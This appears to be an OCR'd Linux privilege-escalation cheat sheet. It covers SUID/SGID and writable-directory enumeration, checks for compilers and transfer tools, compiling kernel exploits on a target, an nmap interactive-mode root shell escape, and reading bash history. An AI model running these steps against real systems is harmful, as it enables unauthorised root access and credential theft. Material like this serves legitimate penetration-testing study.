 ~~~
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    
# Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

# find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
~~~
~~~
Where can written to and executed from? A few 'common' places: /tmp, /var/tmp, /dev/shm
find / -writable -type d 2>/dev/null      # world-writeable folders
find / -perm -222 -type d 2>/dev/null     # world-writeable folders
find / -perm -o w -type d 2>/dev/null     # world-writeable folders
find / -perm -o x -type d 2>/dev/null     # world-executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders
~~~
~~~
Any "problem" files? Word-writeable, "nobody" files
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files
~~~
~~~
Preparation & Finding Exploit Code
What development tools/languages are installed/supported?	
find / -name perl*
find / -name python*
find / -name gcc*
find / -name cc
~~~
~~~
How can files be uploaded?
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
~~~
# Kernel vulnerability. (exploit suggester or manual based on version)
~~
~~~
1. Uname -a
2. linux-exploit-suggester-2.pl -k <KERNEL_VERSION>
(on target) gcc <spoilers> -o exploit -Wl,--hash-style=both
gcc -m32 -Wl,--hash-style=both
~~~
# Suid misconfiguration. Example programs: nmap vim nano 
~~~
Binary with suid permission can be run by anyone, but when they are run they are run as root! 
Nmap example 
Nmap: $ nmap --interactive 
nmap> !sh
~~~
# Search and grep for keywords in all files.
~~~
1. cat ~/.bash_history 
2. cd ~ 
~~~